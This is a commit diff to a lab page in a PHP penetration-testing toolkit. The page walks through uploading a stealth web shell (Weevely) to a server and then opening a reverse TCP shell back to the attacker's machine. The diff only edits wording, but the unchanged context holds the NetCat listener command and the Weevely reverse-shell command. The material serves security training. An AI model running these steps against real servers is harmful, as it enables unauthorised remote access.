

Before and after one commit to veerupandey/Penetration-Testing-Toolkit, a PHP site: page /phpbackdoor.php in a window 1280 px wide. Shown: the part 90-1096 px from the top of the page at 96% size. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
modified:   lab/phpbackdoor.php

```diff
--- a/lab/phpbackdoor.php
+++ b/lab/phpbackdoor.php
@@ -83,7 +83,7 @@ require_once 'u.php';
         <label>Step 2a.</label> Upload this PHP stealth web shell and backdoor to a web server (that support php)
     </fieldset>
      <fieldset>
-         <label>Step 2b.</label>Let say u’ve successfully uploaded the PHP backdoor with the address <b>http://192.168.2.29/upload/yourshell.php</b>
+         <label>Step 2b.</label>Suppose u’ve successfully uploaded the PHP backdoor with the address <b>http://192.168.2.29/upload/yourshell.php</b>
          where upload is the directory on the server where you uploaded your shell.<?php $host=$_SERVER['SERVER_ADDR'];echo "<p>Open Terminal  <a target='_blank' href='https://$host:4200/'>here</a></p>";?>
 
      </fieldset>
@@ -98,11 +98,11 @@ require_once 'u.php';
         <b>Format :</b> shell.sh  system_command</p>
     </fieldset>
         <fieldset>
-            <label>Step 2e.</label>Use NetCat to listen for an incoming connection in our attacker computer
+            <label>Step 2e.</label>Use NetCat to listen for an incoming connection in your attacker computer
             <?php $host=$_SERVER['SERVER_ADDR'];echo "<p>Open <a target='_blank' href='https://$host:4200/'>Terminal </a>and type:<code>  nc -l -v -p 23</code></p>";?>
     </fieldset>
     <fieldset>
-        <label>Step 2f.</label>Back to Weevely terminal opened in <b>step 2D</b>, after NetCat successfully listening on specific port, now we make a reverse TCP connection to our computer.
+        <label>Step 2f.</label>Back to Weevely terminal opened in <b>step 2D</b>, after NetCat successfully listening on specific port, now  make a reverse TCP connection to our computer.
         <code>backdoor.reverse_tcp your_ip 23</code>
     </fieldset>
     <fieldset>
```
